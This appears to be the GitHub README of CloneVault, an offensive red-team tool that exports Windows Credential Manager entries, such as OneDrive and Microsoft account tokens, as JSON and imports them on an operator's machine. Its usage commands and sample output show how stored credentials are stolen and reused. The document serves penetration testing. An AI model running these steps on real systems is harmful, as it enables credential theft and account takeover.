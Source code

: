 # CloneVault

CloneVault allows a red team operator to export and import entries including attributes from Windows Credential Manager. This allows for more complex stored credentials to be exfiltrated and used on an operator system. It is aimed at making it possible to port credentials that store credential material in binary blobs or those applications that store data in custom attributes.  There are many use cases, please see our demonstration of cloning access to Microsoft OneDrive on the [MDSec Blog](https://www.mdsec.co.uk/knowledge-centre/insights/).

## Usage

```
CloneVault.exe list
CloneVault.exe export <application name>
CloneVault.exe exportAll
CloneVault.exe import <JSON string>
CloneVault.exe importFile <JSON file>
```

List credentials

```
C:\Users\dade.murphy\Desktop>CloneVault.exe list
[*] Enumerating generic credentials
[-] MicrosoftAccount:target=SSO_POP_Device
[-] LegacyGeneric:target=OneDrive Cached Credential Business - Business1
[-] WindowsLive:target=virtualapp/didlogical
```

Export a credential

```
C:\Users\dade.murphy\Desktop>CloneVault.exe export "LegacyGeneric:target=OneDrive Cached Credential Business - Business1"
[*] Attempting to export LegacyGeneric:target=OneDrive Cached Credential Business - Business1
[-] Attribute Microsoft_SkyDrive_Version
[-] Attribute Microsoft_SkyDrive_ConnectedId
[-] Attribute Microsoft_OneDrive_CredentialCount
[-] Attribute Microsoft_SyncClient_ADALContext
---SNIP JSON CONTENT---
```

Export all credentials

```
C:\Users\dade.murphy\Desktop>CloneVault.exe exportAll
[*] Exporting all credentials
[*] Attempting to export LegacyGeneric:target=XboxLive
---SNIP JSON CONTENT---

[*] Attempting to export MicrosoftAccount:target=SSO_POP_Device
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:0
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:1
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:2
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:3
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:4
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:5
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:6
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:7
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:8
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:9
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:10
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:11
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:12
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:13
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:14
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:15
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:16
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:17
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:18
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:19
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:20
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:21
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:22
[-] Attribute Microsoft_WindowsLive:SerializedMaterial:23
---SNIP JSON CONTENT---
```

Import a credential

```
C:\Users\dade.murphy\Desktop>CloneVault.exe import "---SNIP JSON CONTENT---"
[*] Importing credential
[-] Attribute Microsoft_SkyDrive_Version
[-] Attribute Microsoft_SkyDrive_ConnectedId
[-] Attribute Microsoft_OneDrive_CredentialCount
[-] Attribute Microsoft_SyncClient_ADALContext
[*] Finished importing credential
```

Import a credential from file

```
C:\Users\dade.murphy\Desktop>CloneVault.exe importFile JSONContentInHere.json
[*] Importing credential
[-] Attribute Microsoft_SkyDrive_Version
[-] Attribute Microsoft_SkyDrive_ConnectedId
[-] Attribute Microsoft_OneDrive_CredentialCount
[-] Attribute Microsoft_SyncClient_ADALContext
[*] Finished importing credential
```

## Author
* **David Middlehurst, MDSec ActiveBreach** - Twitter- [@dtmsecurity](https://twitter.com/dtmsecurity)

## Acknowledgments
* https://gist.github.com/meziantou/10311113
* https://github.com/AdysTech/CredentialManager
* https://github.com/GhostPack/Seatbelt/blob/master/Seatbelt/Commands/Windows/CredEnumCommand.cs